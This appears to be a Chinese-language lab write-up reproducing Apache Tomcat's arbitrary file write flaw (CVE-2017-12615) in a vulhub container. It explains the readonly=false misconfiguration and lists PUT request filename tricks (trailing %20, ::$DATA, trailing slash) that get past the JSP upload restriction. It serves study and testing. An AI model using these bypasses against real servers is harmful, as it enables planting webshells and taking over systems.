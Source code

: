 ### Tomcat 任意文件写入 (CVE-2017-12615）

#### 影响范围

Apache Tomcat7.0.0-7.0.81（默认配置）

#### 复现

这边我用 vulhub

```
sudo docker ps
sudo docker exec -ti a3 bash
cat conf/web.xml |grep readonly

```

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR3ibnOz2Slh3icgLwEyRibxE9QaEVlWXcvs50LSia5aBV5tYOXE9xtlPZhNKy3FxTCQkt7rFILRGUlI9eQ/640?wx_fmt=jpeg)

去底层看看源码

```
/usr/local/tomcat/webapps/ROOT

```

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR3ibnOz2Slh3icgLwEyRibxE9Qa5omIQt2UwsLjto1xYwqVZqQXXibyQDribgaJxtkBKLdDSd0ICgxmKhZA/640?wx_fmt=jpeg)

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR3ibnOz2Slh3icgLwEyRibxE9QaW2P9wDYia1kTW0R1MUP2F8vRdsERXkVaibeHRlMt0F90UJHicosA9LYLg/640?wx_fmt=jpeg)

#### 漏洞原理

产生是由于配置不当（非默认配置），将配置文件`conf/web.xml`中的`readonly`设置为了 false，导致可以使用 PUT 方法上传任意文件，但限制了 jsp 后缀，不过对于不同平台有多种绕过方法

#### 开始复现

抓包 改位 PUT 上传方式

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR3ibnOz2Slh3icgLwEyRibxE9QaxqcWorv8wibgiciaaXDHGxR1DjKHDm1cPhrvgAnrpoBibRC647t3Yyl6jA/640?wx_fmt=jpeg)

去上传目录看看

```
1.Windows下不允许文件以空格结尾
以PUT /a001.jsp%20 HTTP/1.1上传到 Windows会被自动去掉末尾空格
2.WindowsNTFS流
Put/a001.jsp::$DATA HTTP/1.1
3. /在文件名中是非法的，也会被去除（Linux/Windows）
Put/a001.jsp/http:/1.1

```

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR3ibnOz2Slh3icgLwEyRibxE9QagtSPHPz6O8MqMUt67sIAsaHxyICyIgicHvvic5bpRSDhScYBiaGEVPKbA/640?wx_fmt=jpeg)

成功上传
